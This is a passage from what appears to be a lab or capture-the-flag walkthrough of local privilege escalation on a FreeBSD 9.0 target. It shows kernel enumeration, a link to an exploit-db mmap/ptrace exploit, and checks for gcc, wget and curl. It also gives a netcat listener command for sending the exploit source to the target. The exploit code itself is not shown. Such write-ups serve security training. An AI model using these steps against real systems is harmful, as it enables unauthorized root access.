 Since I could not find any exploitable services I decided to check if any kernel exploits could be found.

```bash
uname -a
```

![[escalation-2.png|500]]

The target was running kernel 9.0. I searched online for exploits that target this version and found two.

![[escalation-3.png|500]]

The 1st exploit (SYSRET) did not work when I tried it. So I ended up using the `mmap/ptrace` exploit.

[FreeBSD 9.0 \< 9.1 - 'mmap/ptrace' Local Privilege Escalation - FreeBSD Exploit](https://www.exploit-db.com/exploits/26368)

The exploit is written in C which means `gcc` has to be present on the target so that the code can be compiled. I also have to copy the code from my system to the target for this `wget` or `curl` would be required.

```bash
which gcc
which wget
which curl
```

The target had `gcc` but it did not have `wget` and `curl`. I tried to install `curl` but I was unable to do so.

[Installing Applications \| FreeBSD Documentation Portal](https://docs.freebsd.org/en/books/handbook/ports/)

The target had `netcat` installed. `netcat` can also be used to transfer files. 

<iframe 
	width="560" height="315" 
	src="https://www.youtube-nocookie.com/embed/Vh0wXXWZ4kQ?si=jO8Jb_tSOzW4gzEo" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen>
</iframe>

I downloaded the kernel exploit code and renamed it to `ptrace.c`.

In a new terminal using `netcat` I set up the sender.

```bash
nc -v -w 30 -p 9001 -l < ptrace.c
```

`-v`: Verbose  
`-w`: Timeout duration  
`-p`: Port Number  
`-l`: Listen for inbound Connections  
`< ptrace.c`: Pipe the content of the file into `nc`
